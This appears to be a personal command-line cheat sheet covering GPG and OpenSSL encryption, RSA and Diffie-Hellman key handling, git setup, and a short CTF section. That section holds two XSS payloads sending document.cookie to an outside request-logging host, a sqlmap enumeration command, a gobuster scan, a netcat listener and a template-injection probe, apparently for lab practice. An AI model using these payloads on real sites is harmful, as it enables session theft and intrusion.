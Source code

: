 # command-lines

## Encription

### GPG

`gpg --armor --symmetric --cipher-algo CIPHER message.txt`

`gpg --output original_message.txt --decrypt message.gpg`

### OpenSSL

`openssl aes-256-cbc -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -d -in encrypted_message -out original_message.txt`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message`

`openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt`

### RSA 

`openssl genrsa -out private-key.pem 2048`

`openssl rsa -in private-key.pem -pubout -out public-key.pem`

`openssl rsa -in private-key.pem -text -noout`

`openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin`

`openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt`

### Deffie Hellman

`openssl dhparam -out dhparams.pem 2048`

`openssl dhparam -in dhparams.pem -text -noout`

### Certificate signing

`openssl req -new -nodes -newkey rsa:4096 -keyout key.pem -out cert.csr`

## Gobuster

gobuster dir -w /usr/share/wordlists/rockyou.txt -u "http://localhost:8000/"

## nmap

`nc -nlvp 1234`

## Git

`git remote set-url origin git@github.com:sbahbouhi/command-lines.git`

`git init`

`git commit -m "xxxx"`

`git branch -M main`

`git remote add origin git@github.com:sbahbouhi/xxxx.git`

`git push -u origin main`

## CTF

### xss payloads

<script>window.location=`https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com/${document.cookie}`</script>

fetch("https://01hh4df1c5qk1fjks5n8spq9zn00-e4e6c9cb80653f2a86a1.requestinspector.com?"+encodeURIComponent(document.cookie));

### sqlmap

`sqlmap -u "http://localhost:8000/index.php?id=1" -dbs`

VueJS {{7*7}}




